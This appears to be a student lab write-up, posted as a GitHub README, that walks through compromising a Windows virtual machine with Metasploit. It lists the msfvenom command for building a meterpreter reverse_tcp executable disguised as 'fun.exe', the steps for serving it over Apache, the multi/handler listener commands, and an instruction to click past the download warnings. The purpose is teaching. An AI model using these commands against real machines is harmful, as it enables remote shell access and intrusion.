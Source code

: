 Find the attackers ip address using ifconfig

### Output:
<img width="1920" height="1080" alt="kali linux  Running  - Oracle VirtualBox 25-10-2025 08_38_47" src="https://github.com/user-attachments/assets/8a47f685-7a16-457c-81fa-d1ff5fe48a81" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="580" height="187" alt="Screenshot 2025-10-25 090853" src="https://github.com/user-attachments/assets/fa735b22-9456-4eea-a5a6-a0c5178aac51" />


copy the fun.exe into the apache ```/var/www/html ```folder

<img width="520" height="87" alt="image" src="https://github.com/user-attachments/assets/fa5a74d4-9f6a-46b0-95e5-efdfc19c2727" />


Start apache server ```sudo systemctl apache2 start``` 
<img width="445" height="70" alt="Screenshot 2025-10-25 091234" src="https://github.com/user-attachments/assets/c98de86c-880b-43dc-beae-b7145af422d8" />


Check the status of apache2 ```sudo apache2 status```
<img width="1044" height="244" alt="Screenshot 2025-10-25 091415" src="https://github.com/user-attachments/assets/09630d25-a87e-4f01-836c-1d155d779a68" />


Invoke msfconsole:
<img width="1920" height="1080" alt="kali linux  Running  - Oracle VirtualBox 25-10-2025 08_52_22" src="https://github.com/user-attachments/assets/a7e6852f-162a-4d22-8194-b9fd254baa14" />




Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="613" height="131" alt="Screenshot 2025-10-25 091622" src="https://github.com/user-attachments/assets/ee92dff7-741e-42e9-9f67-318f10b75269" />

<img width="1920" height="1080" alt="kali linux  Running  - Oracle VirtualBox 25-10-2025 09_02_55" src="https://github.com/user-attachments/assets/b6d41892-960b-4406-9548-6f2e08f23325" />




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


